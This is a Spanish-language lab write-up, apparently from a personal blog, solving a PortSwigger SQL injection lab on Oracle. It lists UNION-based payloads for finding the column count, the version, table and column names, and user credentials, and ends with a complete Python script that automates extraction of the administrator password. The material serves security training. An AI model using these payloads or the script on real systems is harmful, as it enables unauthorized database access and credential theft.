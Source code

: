 ```yaml
---
title: "10 SQL injection attack, listing the database contents on Oracle"
collection: publications
category: portswigger
permalink: /publications/SQLi/10_SQL injection attack, listing the database contents on Oracle
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el campo de categoría de producto. Para resolver el laboratorio, realizamos un ataque de inyección SQL basado en UNION en una base de datos Oracle que recupera los nombres de usuario y las contraseñas de todos los usuarios de la aplicación.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQL injection attack, listing the database contents on Oracle'
---
```


![logo]({{site.url}}/images/SQLi/sqli-10/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-10/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, inicia sesión como usuario administrador.

## Determinamos que el campo si es vulnerable

```javascript
' or 1=1--
```

![Vulnerable]({{site.url}}/images/SQLi/sqli-10/vulnerable.png)

## Determinar el numero de columnas retornadas por la consulta

Miramos la cantidad decolumnas retornar hasta que arroje error. Vemos que nos arroja 2 columnas.

```javascript
' ORDER BY 1--
' ORDER BY 2--
```

![Order by]({{site.url}}/images/SQLi/sqli-10/order by.png)

## Miramos que columna es de tipo 'String'

Inyectamos en cada una de ellas mirando cual podemos inyectar 'String', ya que es una BD oracle debemos llamar la  tabla DUAL

```javascript
' UNION SELECT 'A', NULL FROM DUAL--
' UNION SELECT NULL, 'A' FROM DUAL-- 
' UNION SELECT 'A', 'A' FROM DUAL--
```

![String]({{site.url}}/images/SQLi/sqli-10/campo string.png)

## Miramos la versión de la BD

[Hoja de Trucos](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Ya que sabemos que es una BD de Oracle probamos averiguar la versión de Oracle

```javascript
' UNION SELECT banner, NULL FROM v$version--
```

![version]({{site.url}}/images/SQLi/sqli-10/version.png)

## Obtenemos todas las tablas

Ya sabemos que es una BD Oracle debemos listar las tablas

```javascript
' UNION SELECT table_name, NULL FROM all_tables--
```

```Tabla
USERS_HZTDAO
```

![tablas]({{site.url}}/images/SQLi/sqli-10/tablas.png)

## Obtenemos el nombre de las columnas

Ya sabemos que la tabla se llama `USERS_HZTDAO` ahora listamos las filas de la tabla

```javascript
' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS_HZTDAO'--
```

```
USERNAME_PFWFAV
PASSWORD_RXDLTE
```

![nombre columnas]({{site.url}}/images/SQLi/sqli-10/nombre columnas.png)

## Listamos el usuario y password

```javascript
' UNION select USERNAME_PFWFAV, PASSWORD_RXDLTE from USERS_HZTDAO--
```

![Password]({{site.url}}/images/SQLi/sqli-10/password.png)

## Realizamos Login

![Login]({{site.url}}/images/SQLi/sqli-10/login.png)

## Resuelto

![Login]({{site.url}}/images/SQLi/sqli-10/Aprobado.png)

# Codigo Python
```python
import requests
import sys
import urllib3
from bs4 import BeautifulSoup
import re

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def perform_request(url, sql_payload):
    path = "/filter?category=Gifts"
    r = requests.get(url + path + sql_payload, verify=False, proxies=proxies)
    return r.text

def sqli_users_table(url):
    sql_payload = "' UNION SELECT table_name, NULL FROM all_tables--"
    res = perform_request(url, sql_payload)
    soup = BeautifulSoup(res, 'html.parser')
    users_table = soup.find(text=re.compile('^USERS\_.*'))
    return users_table

def sqli_users_columns(url, users_table):
    sql_payload = "' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = '%s'-- " % users_table
    res = perform_request(url, sql_payload)
    soup = BeautifulSoup(res, 'html.parser')
    username_column = soup.find(text=re.compile('.*USERNAME.*'))
    password_column = soup.find(text=re.compile('.*PASSWORD.*'))
    return username_column, password_column

def sqli_administrator_cred(url, users_table, username_column, password_column):
    sql_payload = "' UNION select %s, %s from %s--" % (username_column, password_column, users_table)
    res = perform_request(url, sql_payload)
    soup = BeautifulSoup(res, 'html.parser')
    admin_password = soup.find(text="administrator").parent.findNext('td').contents[0]
    return admin_password

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print("[-] Usage: %s <url>" % sys.argv[0])
        print("[-] Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    print("Looking for the users table...")
    users_table = sqli_users_table(url)
    if users_table:
        print("Found the users table name: %s" % users_table)
        username_column, password_column = sqli_users_columns(url, users_table)
        if username_column and password_column:
            print("Found the username column name: %s " % username_column)
            print("Found the password column name: %s" % password_column)

            admin_password = sqli_administrator_cred(url, users_table, username_column, password_column)
            if admin_password:
                print("[+] The administrator password is: %s " % admin_password)
            else:
                print("Did not find the administrator password")
        else:
            print("Did not find the username and/or the password columns")
    else:
        print("Did not find a users table.")
```